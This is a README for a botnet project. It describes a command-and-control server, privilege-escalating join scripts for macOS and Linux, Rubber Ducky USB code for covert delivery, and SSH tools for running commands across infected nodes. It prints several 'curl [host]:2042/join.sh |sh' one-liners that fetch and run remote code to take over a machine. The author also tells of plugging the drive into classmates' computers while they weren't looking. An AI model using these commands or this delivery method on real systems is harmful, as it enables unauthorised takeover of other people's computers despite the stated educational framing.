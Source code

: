 # net
Code for building and administrating a rudimentary botnet.

**Please note that I strictly used this code for educational purposes. I do not and never have run a DDoSsing botnet or other such illegal operation and do not condone the use of this code for any malicious purpose.**

I used this code at the Virginia Residential Governor's School for Math, Science, and Technology to take over 36 Raspberry Pi microcomputers and Kali Linux desktops in the cybersecurity class in which I partook. This activity was part of the class, and I absolutely never violated any rules.

## How it works
### Command & Control
C&C is managed on ports `2042` & `2043` of a server. A simple Python script opens a socket on port `2043` which listens for incoming data from nodes. All requests to the server are printed to the terminal, and important ones may be written into `nodes.txt`.

To make control scripts available, run
```sh
python3 -m http.server 2042
```
from the `control` directory. This will use Python's inbuilt simple HTTP server to serve control scripts to nodes upon request.

### Joining
On macOS, two scripts are used to join a computer to the network, `join.sh` and `enact.sh`. `join.sh` allows one-command joining: it will download and decrypt an exploit needed to elevate (on OS X El Capitan) to a root shell and then run `enact.sh` in that root shell automatically. That script will handle joining the botnet.

For GNU/Linux, there's just one script, `join.sh`, which must be executed as root or as a user with root privileges.

Here are simple one-liners to join the botnet:

Mac:
```sh
curl -L [host]:2042/mac/join.sh |sh
```
Linux:
```sh
curl -L [host]:2042/linux/join.sh |sh
```

To save time and keystrokes, you can use these shortcuts:
```sh
curl -L [host]:2042/jm |sh
curl -L [host]:2042/jl |sh
```

Or, to save even more time, you can skip the part where you think about what operating system the computer is using and simply type:
```sh
curl -L [host]:2042/join.sh |sh
```

Really in a hurry? There's a shortcut for that as well:
```sh
curl -L [host]:2042/j |sh
```

### Rubber Duck code
In the `duck` directory, you'll find Arduino code for delivering the join scripts automatically to macOS and Linux computers.

I used this code with a Digispark ATTINY85 drive, though it can be easily modified to work with other Rubber Duck USBs.

During my cybersecurity class in which I developed `net`, I plugged the drive into users' computers while they weren't looking, saving me the inconvenience of having to attain keyboard access.

To upload this code to your drive, follow [this tutorial](https://www.youtube.com/watch?v=fGmGBa-4cYQ).

### Tools
Running `tools/run.sh` followed by a string giving the command you'd like to run will cause all nodes in `nodes.txt` (in your working directory) to run that command through SSH. This is less useful now that cron control exists. You can also run `up.sh` to view which/how many nodes on the current network are online.

## Licensing
This software was created by [Erik Boesen](https://github.com/ErikBoesen) and is available under the [MIT License](LICENSE).
